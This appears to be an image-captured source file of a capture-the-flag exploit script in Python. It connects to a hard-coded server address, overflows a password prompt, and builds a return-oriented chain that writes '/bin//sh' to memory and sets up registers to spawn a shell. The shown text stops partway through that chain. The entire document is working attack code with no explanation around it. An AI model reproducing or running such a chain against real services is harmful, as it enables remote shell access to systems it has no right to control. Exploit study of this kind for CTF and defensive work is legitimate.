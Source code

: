     	s = socket.create_connection(('121.40.56.102', 2333))
    	#s = socket.create_connection(('localhost', 7777))  	# connect to server

    	print recv_until('Password:')				# eat input

    	p  = 'py' + 'AAAAAA'
    	p += 'K' * 0x38

    	p += pack('<Q', 0x4444444444444444)			# old rbp
    	p += pack('<Q', 0x00000000004055B6) 		# return to stack-adjustment gadget

    	'''
    		.text:00000000004055B6 48 83 C4 78                       add     rsp, 78h
    		.text:00000000004055BA 4C 89 E8                          mov     rax, r13
    		.text:00000000004055BD 5B                                pop     rbx
    		.text:00000000004055BE 5D                                pop     rbp
    		.text:00000000004055BF 41 5C                             pop     r12
    		.text:00000000004055C1 41 5D                             pop     r13
    		.text:00000000004055C3 41 5E                             pop     r14
    		.text:00000000004055C5 41 5F                             pop     r15
    		.text:00000000004055C7 C3                                retn
    	'''


    	p += 'E'*16 + '\x00'*8 + 'X'*0x40 			# do some padding first

    	p += pack('<Q', 0x0000000000401937) 		# pop rsi ; ret
    	p += pack('<Q', 0x00000000006c4080) 		# @ .data
    	p += pack('<Q', 0x000000000046f208) 		# pop rax ; ret
    	p += '/bin//sh'
    	p += pack('<Q', 0x000000000046b8d1) 		# mov qword ptr [rsi], rax ; ret
    	p += pack('<Q', 0x0000000000401937) 		# pop rsi ; ret
    	p += pack('<Q', 0x00000000006c4088) 		# @ .data + 8
    	p += pack('<Q', 0x000000000041bd1f) 		# xor rax, rax ; ret
    	p += pack('<Q', 0x000000000046b8d1) 		# mov qword ptr [rsi], rax ; ret
    	p += pack('<Q', 0x0000000000401823) 		# pop rdi ; ret
    	p += pack('<Q', 0x00000000006c4080) 		# @ .data
    	p += pack('<Q', 0x0000000000401937) 		# pop rsi ; ret
    	p += pack('<Q', 0x00000000006c4088) 		# @ .data + 8
    	p += pack('<Q', 0x000000000043ae05) 		# pop rdx ; ret
    	p += pack('<Q', 0x00000000006c4088) 		# @ .data + 8
    	p += pack('<Q', 0x000000000041bd1f) 		# xor rax, rax ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790)			# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790)			# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret
    	p += pack('<Q', 0x000000000045e790) 		# add rax, 1 ; ret